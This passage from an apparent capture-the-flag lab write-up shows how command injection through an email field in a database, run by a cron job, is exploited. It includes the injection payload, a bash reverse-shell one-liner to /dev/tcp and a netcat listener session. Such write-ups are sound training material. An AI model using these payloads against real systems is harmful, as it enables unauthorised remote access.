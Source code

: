 

Next, I'll upload a file to `messages` over FTP (any file):



    lftp ftpadm@ftp.crossfit.htb:/messages> put test.txt
    35 bytes transferred    



And add the injection:



    MariaDB [crossfit]> insert into users(email) values('--wrong || touch /dev/shm/0xdf');
    Query OK, 1 row affected (0.001 sec)



The `watch` updates showing the new user added:



    Every 2.0s: date; mysql -u crossfit -poeL...  crossfit: Tue Jan 26 17:21:33 2021

    Tue Jan 26 17:21:33 EST 2021
    id      email
    52      0xdf@crossfit.htb
    81      --wrong || touch /dev/shm/0xdf



When the minute rolls around, the `watch` updates and the injection
email is gone:



    Every 2.0s: date; mysql -u crossfit -poeL...  crossfit: Tue Jan 26 17:22:16 2021

    Tue Jan 26 17:22:16 EST 2021
    id      email
    52      0xdf@crossfit.htb
    0xdf



The file `0xdf` showed up in `/dev/shm`. The injection worked.

### Shell

Now I'll just update the injection to return a reverse shell:



    MariaDB [crossfit]> insert into users(email) values('--wrong || bash -c "bash -i &> /dev/tcp/10.10.14.11/443 0>&1"');
    Query OK, 1 row affected (0.002 sec)



Making sure to re-upload a file over FTP, when the cron runs, a shell
comes back:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.208.
    Ncat: Connection from 10.10.10.208:35360.
    bash: cannot set terminal process group (8383): Inappropriate ioctl for device
    bash: no job control in this shell
    isaac@crossfit:~$ id
    uid=1000(isaac) gid=1000(isaac) groups=1000(isaac),50(staff),116(ftp),1005(admins)
